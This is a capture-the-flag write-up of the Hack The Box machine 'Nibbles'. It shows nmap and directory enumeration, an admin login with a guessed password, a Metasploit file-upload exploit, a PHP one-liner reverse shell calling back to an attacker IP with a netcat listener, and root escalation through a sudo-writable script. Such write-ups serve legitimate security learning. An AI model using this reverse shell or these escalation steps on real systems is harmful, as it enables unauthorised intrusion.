










# Hack The Box: Nibbles machine write-up

This writeup will be shorter than usual given that the machine was fairly easy to root. The ip is 10.10.10.75.

#### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA first 10.10.10.64
```

And the result was:

```sh
# Nmap 7.01 scan initiated Tue Jun 26 12:27:14 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|_  256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 26 12:27:38 2018 -- 1 IP address (1 host up) scanned in 25.00 seconds
```

Not many things in here, so I decide to check the webserver on port 80. Initially I don't find anything interesting, just a 'hello world' message, but then I inspect the server's response and find out about a directory called 'nibbleblog'.

*Initial file*



*Intercepted response*



*Blog on /nibbleblog directory*



That's when I fire up DirBuster and get down to business. I set the initial directory to be nibbleblog and let it run. It enumerated over [400 directories/files](files/DirBusterReport-10.10.10.75-80.txt), but only one was of interest: `admin.php`.

*Admin.php login*



As I hadn't found any credentials anywhere, it looked like we had to guess the password. Trying with the following credentials resulted in success:

* Username: admin
* Password: nibbles

#### Exploit

Once in, we had to find some vulnerability which would allow us to get RCE. After googling for a while, I came across one in metasploit. It was `multi/http/nibbleblog_file_upload`. We couldn't have used it earlier, as it required the username and password to log in to the control system.

It basically takes advantage of an image vulnerability which lets you upload php code instead. So, after setting the parameters, we get a meterpreter session

*Meterpreter session*



However, this is not a real shell, so there are many limitations (we can execute limited commands like `cat` or `ls`, but not `whoami`, for instance). That said, we could read the user flag.

To get around this issue, I used a php one-liner reverse shell and listened on another terminal window with netcat. Besides, I changed the metasploit payload to `php/reverse_php` so that I could execute the one-liner.

* `php -r '$sock=fsockopen("10.10.14.47",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

* `nc -lnvp 1234`

*New payload with fully upgraded reverse php shell*



#### Root

After reading user flag we initially discover a zip file called `personal.zip`. I unzipped it and going down two directories to `personal/stuff` I come across a file called `monitor.sh`.

The first thing I usually do is run `sudo -l` and then `linenum.sh`. Well, this time it wasn't even necessary to do the second one, as `sudo -l` revealed that we could edit the file `monitor.sh` and run it as sudo. And everyone knows that means we own the box.

*`sudo -l` output*



We can just write to the file and then run it:

*Getting the root hash*



In order to achieve persistency (until the root password is changed), we can set the root password and log in through ssh:

*Getting to be root*


---


*Diego Bernal Adelantado*
